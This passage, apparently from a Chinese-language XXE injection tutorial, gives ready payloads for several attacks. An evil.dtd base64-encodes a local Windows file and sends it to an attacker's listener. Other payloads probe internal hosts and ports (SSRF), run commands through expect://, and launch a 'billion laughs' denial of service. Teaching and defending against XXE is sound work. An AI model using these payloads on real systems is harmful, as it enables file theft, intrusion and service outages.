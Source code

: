 evil.dtd

```
<!ENTITY remote SYSTEM "http://开启监听的IP地址:监听端口/%file">
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
```

然后查看我们的端口监听情况，会发现我们收到了一个连接请求，问号后面的内容就是我们读取到的文件内容经过编码后的字符串，有时候也会出现报错的情况（这是我们在漏洞的代码中没有屏蔽错误和警告），比如我们这里的payload没有选用php的base64编码，这里报错了，但是同时也将所读取的内容爆了出来，只是特殊字符经过了HTML实体编码。

#### 4.3、内网探测

由于xml实体注入攻击可以利用http://协议，也就是可以发起http请求。可以利用该请求去探查内网，进行SSRF攻击。

```xml-dtd
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY f SYSTEM "http://192.168.1.1/">
]>
<user><username>&f;</username><password>admin</password></user>
```

#### 4.4、端口探测

正因为xml外部实体攻击利用的http协议，也就是说利用该请求探测内网端口的存活，从而可以进行ssrf攻击。构造代码：

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "http://127.0.0.1:8000"> 
]>
<user><username>&xxes;</username><password>admin</password></user>
```

#### 4.5、命令执行

php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY xxes SYSTEM "expect://ipconfig"> 
]>
<user><username>&xxes;</username><password>admin</password></user>
```

#### 4.6、DOS攻击

此测试可以在内存中将小型 XML 文档扩展到超过 3GB 而使服务器崩溃。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
